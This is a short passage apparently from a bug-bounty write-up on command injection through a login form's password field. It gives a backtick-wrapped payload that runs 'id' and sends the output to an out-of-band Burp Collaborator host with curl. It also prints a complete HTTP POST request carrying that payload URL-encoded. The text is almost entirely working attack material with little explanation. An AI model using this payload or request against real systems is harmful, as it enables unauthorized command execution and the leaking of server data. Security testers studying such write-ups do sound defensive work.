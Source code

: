 
## Getting the Web Application Id value:


```
`sleep 02 && curl http://$(id).mpfwtwsh7ylajkb4kfc5bc0i197zvo.burpcollaborator.net`
```

>HTTP Request

```http
POST /connexion/ HTTP/2
Host: www.target.com
Cookie: target=test
Content-Length: 61
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

username=sandsuperhot%40gmail.com&password=%60sleep%2002%20%26%26%20curl%20http://%24(id).mpfwtwsh7ylajkb4kfc5bc0i197zvo.burpcollaborator.net%60

```

>HTTP Response

![](/assets/img/4/6.JPG)
